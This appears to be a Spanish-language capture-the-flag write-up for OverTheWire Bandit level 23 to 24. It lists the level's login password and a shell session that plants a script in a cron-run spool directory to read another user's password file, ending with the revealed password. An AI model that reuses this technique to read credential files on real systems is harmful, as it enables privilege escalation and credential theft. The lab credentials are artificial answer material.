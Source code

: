 
# Level 23 al 24
## Objetivos
A program is running automatically at regular intervals from **cron**, the time-based job scheduler. Look in **/etc/cron.d/** for the configuration and see what command is being executed.
**NOTE:** This level requires you to create your own first shell-script. This is a very big step and you should be proud of yourself when you beat this level!
**NOTE 2:** Keep in mind that your shell script is removed once executed, so you may want to keep a copy around…
## datos de acceso
bandit23
QYw0Y2aiA672PsMmh9puTQuhoz8SyR2G
## Solucion
```bash
bandit23@bandit:~$
bandit23@bandit:~$ mkdir /tmp/passtmp
bandit23@bandit:~$ cd /tmp/passtmp
bandit23@bandit:/tmp/passtmp$ echo "cat /etc/bandit_pass/bandit24 >> /tmp/passtmp/password" > passtmp.sh
bandit23@bandit:/tmp/passtmp$ cat passtmp.sh
cat /etc/bandit_pass/bandit24 >> /tmp/passtmp/password
bandit23@bandit:/tmp/passtmp$ chmod 777 passtmp.sh
bandit23@bandit:/tmp/passtmp$ touch password
bandit23@bandit:/tmp/passtmp$ chmod 666 password
bandit23@bandit:/tmp/passtmp$ cp passtmp.sh /var/spool/bandit24/foo
bandit23@bandit:/tmp/passtmp$ cat password
VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar
bandit23@bandit:/tmp/passtmp$
```
## Notas adicionales
 Creamos un script
 damos permisos
 leemos el script
## Referencias


